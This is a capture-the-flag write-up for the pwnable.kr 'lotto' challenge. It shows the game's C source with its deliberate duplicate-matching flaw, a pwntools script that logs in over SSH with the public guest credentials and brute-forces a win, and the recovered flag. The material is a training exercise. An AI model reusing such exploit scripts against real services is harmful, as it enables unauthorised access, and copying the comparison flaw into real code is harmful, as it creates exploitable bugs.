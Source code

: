 ```yaml
---
title: "Pwnable.kr - lotto"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/pwnable.png
ribbon: red
description: "The game asks for 6 bytes and compares them with 6 random bytes in the range [1-45], if the number of matches is 6 we win the game.
The observation here is that it compares each random byte to all the 6 input bytes, so if there is only one match, we win :)
So we will enter 6 of the same character..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Mommy! I made a lotto program for my homework.
> do you want to play?



```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){
	
	int i;
	printf("Submit your 6 lotto bytes : ");
	fflush(stdout);

	int r;
	r = read(0, submit, 6);

	printf("Lotto Start!\n");
	//sleep(1);

	// generate lotto numbers
	int fd = open("/dev/urandom", O_RDONLY);
	if(fd==-1){
		printf("error. tell admin\n");
		exit(-1);
	}
	unsigned char lotto[6];
	if(read(fd, lotto, 6) != 6){
		printf("error2. tell admin\n");
		exit(-1);
	}
	for(i=0; i<6; i++){
		lotto[i] = (lotto[i] % 45) + 1;		// 1 ~ 45
	}
	close(fd);
	
	// calculate lotto score
	int match = 0, j = 0;
	for(i=0; i<6; i++){
		for(j=0; j<6; j++){
			if(lotto[i] == submit[j]){
				match++;
			}
		}
	}

	// win!
	if(match == 6){
		system("/bin/cat flag");
	}
	else{
		printf("bad luck...\n");
	}

}
// The rest of the code is not important
```

The game asks for 6 bytes and compares them with 6 random bytes in the range [1-45], if the number of matches is 6 we win the game.

The observation here is that it compares each random byte to all the 6 input bytes, so if there is only one match, we win :)

So we will enter 6 of the same character (in the range [1-45]) and hope there is a match. 

# Solution:

```python
# solve.py

from pwn import *

sh = ssh('lotto', 'pwnable.kr', password='guest', port=2222)
p = sh.process('./lotto')

for i in range(1000):
	p.recv()
	p.sendline('1')
	p.recv()
	p.sendline('------')
	_ , ans = p.recvlines(2)
	if "bad" not in ans:
		print(ans)
		break
```

```
$ python solve.py
[+] Connecting to pwnable.kr on port 2222: Done
[+] Starting remote process './lotto' on pwnable.kr: pid 102926
sorry mom... I FORGOT to check duplicate numbers... :(
```

Flag: `sorry mom... I FORGOT to check duplicate numbers... :(`